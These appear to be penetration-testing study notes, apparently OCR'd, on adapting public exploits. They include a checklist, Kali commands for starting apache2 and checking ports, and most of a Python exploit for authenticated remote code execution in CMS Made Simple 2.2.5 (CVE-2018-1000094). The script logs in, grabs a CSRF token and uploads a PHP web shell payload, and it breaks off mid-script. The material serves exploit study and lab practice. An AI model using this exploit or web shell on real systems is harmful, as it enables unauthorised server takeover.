 - Does it rely on default application settings (such as the web path of the application) that may have been changed after installation?
- Will oddities such as self-signed certificates disrupt the exploit?

- Need to account for .htaccess files AND Web Application Firewalls (WAF)

- starting apache2 service kali
	- service apache2 start
- check open ports
	- netstat -an
- Example:
```
# Exploit Title: CMS Made Simple 2.2.5 authenticated Remote Code Execution
# Date: 3rd of July, 2018
# Exploit Author: Mustafa Hasan (@strukt93)
# Vendor Homepage: http://www.cmsmadesimple.org/
# Software Link: http://www.cmsmadesimple.org/downloads/cmsms/
# Version: 2.2.5
# CVE: CVE-2018-1000094

import requests
import base64

base_url = "https://10.11.0.128/admin"
upload_dir = "/uploads"
upload_url = base_url.split('/admin')[0] + upload_dir
username = "admin"
password = "HUYfaw763"

csrf_param = "_sk_"
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"

def parse_csrf_token(location):
    return location.split(csrf_param + "=")[1]

def authenticate():
    page = "/login.php"
    url = base_url + page
    data = {
        "username": username,
        "password": password,
        "loginsubmit": "Submit"
    }
    response  = requests.post(url, data=data, allow_redirects=False, verify=False)
    status_code = response.status_code
    if status_code == 302:
        print "[+] Authenticated successfully with the supplied credentials"
        return response.cookies, parse_csrf_token(response.headers['Location'])
    print "[-] Authentication failed"
    return None, None

def upload_txt(cookies, csrf_token):
    mact = "FileManager,m1_,upload,0"
    page = "/moduleinterface.php"
    url = base_url + page
    data = {
        "mact": mact,
        csrf_param: csrf_token,
        "disable_buffer": 1
    }
    txt = {
        'm1_files[]': (txt_filename, payload)
    }
```